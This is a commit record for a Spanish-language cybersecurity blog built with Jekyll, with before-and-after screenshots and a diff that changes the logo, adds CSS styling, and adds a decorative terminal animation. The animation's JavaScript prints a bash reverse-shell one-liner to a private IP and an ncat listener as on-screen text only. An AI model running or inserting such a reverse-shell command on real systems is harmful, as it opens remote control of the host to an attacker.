

Before and after one commit to 0x574R/0x574R.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; grey boxes are pictures that could not be loaded.

Commit message:
Add files via upload

```diff
--- a/_includes/header.html
+++ b/_includes/header.html
@@ -1,8 +1,7 @@
 <header class="site">
   <div class="container header-inner">
     <a class="brand" href="{{ "/" | relative_url }}">
-      <img class="logo" src="{{ "/assets/img/razor-logo.png" | relative_url }}" alt="RAZOR logo">
-      <span class="tagline">blog de ciberseguridad</span>
+      <img class="logo" src="{{ "/assets/img/razor-logo-transparent.png" | relative_url }}" alt="RAZOR logo">
     </a>
     <nav>
       <a href="{{ "/" | relative_url }}">Inicio</a>
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -103,3 +103,62 @@
 /* Reveal */
 .reveal{ opacity:0; transform: translateY(6px); transition: opacity .35s ease, transform .35s ease }
 .reveal.is-in{ opacity:1; transform:none }
+
+
+
+/* Brand logo only */
+.brand .logo{ height:56px; display:block; }
+@media (min-width: 1000px){ .brand .logo{ height:68px } }
+
+/* Fancy underline on nav */
+header nav a{ position:relative; overflow:hidden }
+header nav a::after{
+  content:""; position:absolute; left:10%; bottom:8px; width:0; height:2px; background:var(--accent);
+  transition: width .25s ease; border-radius:2px;
+}
+header nav a:hover::after{ width:80% }
+
+/* Card sheen on hover */
+.card{ position:relative }
+.card::before{
+  content:""; position:absolute; inset:-1px; pointer-events:none; border-radius:inherit;
+  background: radial-gradient(600px 200px at -10% -10%, rgba(255,77,79,.14), transparent 40%);
+  opacity:.0; transition: opacity .25s ease;
+}
+.card:hover::before{ opacity:1 }
+
+/* Rouge syntax highlighting (One Dark-ish with red accent) */
+.highlight{ background: var(--code-bg); border:1px solid var(--border); border-radius:14px; overflow:auto; box-shadow: inset 0 0 0 1px rgba(255,255,255,.02) }
+.highlight pre{ margin:0; padding:1rem 1.2rem; font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, "Liberation Mono", monospace; font-size:.95rem; line-height:1.5 }
+.highlight .hll{ background-color:#2c313c }
+.highlight .c{ color:#7f848e } /* Comment */
+.highlight .err{ color:#f28b82 } /* Error */
+.highlight .k{ color:#c678dd } /* Keyword */
+.highlight .l{ color:#e5c07b } /* Literal */
+.highlight .n{ color:#e6edf3 } /* Name */
+.highlight .o{ color:#56b6c2 } /* Operator */
+.highlight .p{ color:#e6edf3 } /* Punctuation */
+.highlight .cm{ color:#7f848e } .highlight .cp{ color:#7f848e } .highlight .c1{ color:#7f848e } .highlight .cs{ color:#7f848e }
+.highlight .gd{ color:#f28b82 } .highlight .ge{ font-style: italic } .highlight .gr{ color:#e06c75 } .highlight .gh{ color:#61afef }
+.highlight .gi{ color:#98c379 } .highlight .go{ color:#abb2bf } .highlight .gp{ color:#61afef } .highlight .gs{ font-weight: bold } .highlight .gu{ color:#61afef }
+.highlight .kc{ color:#c678dd } .highlight .kd{ color:#c678dd } .highlight .kn{ color:#c678dd } .highlight .kp{ color:#c678dd } .highlight .kr{ color:#c678dd } .highlight .kt{ color:#c678dd }
+.highlight .ld{ color:#e5c07b } .highlight .m{ color:#e5c07b } .highlight .s{ color:#98c379 } .highlight .na{ color:#e6edf3 } .highlight .nb{ color:#61afef } .highlight .nc{ color:#e6edf3 }
+.highlight .no{ color:#d19a66 } .highlight .nd{ color:#61afef } .highlight .ni{ color:#e06c75 } .highlight .ne{ color:#e06c75 } .highlight .nf{ color:#61afef }
+.highlight .nl{ color:#e6edf3 } .highlight .nn{ color:#e6edf3 } .highlight .nx{ color:#e6edf3 } .highlight .py{ color:#e6edf3 } .highlight .nt{ color:#e06c75 }
+.highlight .nv{ color:#e6edf3 } .highlight .ow{ color:#56b6c2 } .highlight .w{ color:#abb2bf }
+.highlight .sc{ color:#98c379 } .highlight .sd{ color:#98c379 } .highlight .si{ color:#98c379 } .highlight .sr{ color:#98c379 } .highlight .ss{ color:#98c379 }
+.highlight .bp{ color:#61afef } .highlight .vc{ color:#e6edf3 } .highlight .vg{ color:#e6edf3 } .highlight .vi{ color:#e6edf3 }
+.highlight .il{ color:#e5c07b }
+
+/* Inline code remains with red accent */
+.post-body code{ background: rgba(190,15,46,.12); border:1px solid rgba(190,15,46,.22) }
+
+/* Terminal hero grid (attacker ↔ target) restored */
+.term-grid{ display:grid; grid-template-columns: 1fr; gap:1rem; margin-top:1rem }
+@media (min-width: 900px){ .term-grid{ grid-template-columns: 1fr 1fr } }
+.hero-term{ border:1px solid var(--border); border-radius:12px; background:var(--code-bg); padding:1rem; box-shadow: inset 0 0 0 1px rgba(255,255,255,.02) }
+.hero-term .line{ white-space:pre; font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, "Liberation Mono", monospace }
+.hero-term .prompt{ color:#ff6b6b }    /* attacker prompt in red */
+.hero-term .role{ color:#41d692 }      /* victim prompt in green */
+.hero-term .cursor{ display:inline-block; width:8px; height:1.05em; vertical-align:bottom; background:#e6edf3; animation: blink 1s steps(1) infinite; margin-left:2px }
+@keyframes blink{ 50%{ opacity:0 } }
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -29,3 +29,29 @@
     tocRoot.appendChild(li);
   });
 })();
+
+
+// Hero terminal typing animation (attacker red, victim green)
+(function(){
+  const A = document.querySelector('[data-ty="a"]');
+  const B = document.querySelector('[data-ty="b"]');
+  if(!A || !B) return;
+  const seqA = [
+    "ncat -lvnp 4444",
+    "listening on [any] 4444 ...",
+    "connection received from 10.10.10.42"
+  ];
+  const seqB = [
+    "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1",
+    "whoami",
+    "www-data"
+  ];
+  function type(el, str, delay=40){ return new Promise(res=>{ let i=0; const t=setInterval(()=>{ el.textContent += (str[i++]||''); if(i>str.length){ clearInterval(t); res(); } }, delay); }); }
+  async function run(){
+    A.textContent = ""; B.textContent = "";
+    for (const s of seqA){ await type(A, s + "\\n"); }
+    for (const s of seqB){ await type(B, s + "\\n"); }
+  }
+  // run once after slight delay for reveal
+  setTimeout(run, 400);
+})();
--- a/index.html
+++ b/index.html
@@ -13,6 +13,16 @@
     <span class="pill">exploit-dev</span>
     <span class="pill">offensive-security</span>
   </div>
+
+  <div class="term-grid reveal">
+    <div class="hero-term" id="attacker">
+      <div class="line"><span class="prompt">attacker@razor$</span> <span data-ty="a"></span><span class="cursor"></span></div>
+    </div>
+    <div class="hero-term" id="target">
+      <div class="line"><span class="role">victim@host$</span> <span data-ty="b"></span><span class="cursor"></span></div>
+    </div>
+  </div>
+
 </section>
 
 <section class="grid">
@@ -29,6 +39,16 @@
     <p class="desc">{{ post.excerpt | strip_html | strip_newlines | truncate: 160 }}</p>
   </a>
 {%- endfor -%}
+
+  <div class="term-grid reveal">
+    <div class="hero-term" id="attacker">
+      <div class="line"><span class="prompt">attacker@razor$</span> <span data-ty="a"></span><span class="cursor"></span></div>
+    </div>
+    <div class="hero-term" id="target">
+      <div class="line"><span class="role">victim@host$</span> <span data-ty="b"></span><span class="cursor"></span></div>
+    </div>
+  </div>
+
 </section>
 
 {%- if paginator.total_pages > 1 -%}
```
Also changed, not shown: 1 other file.
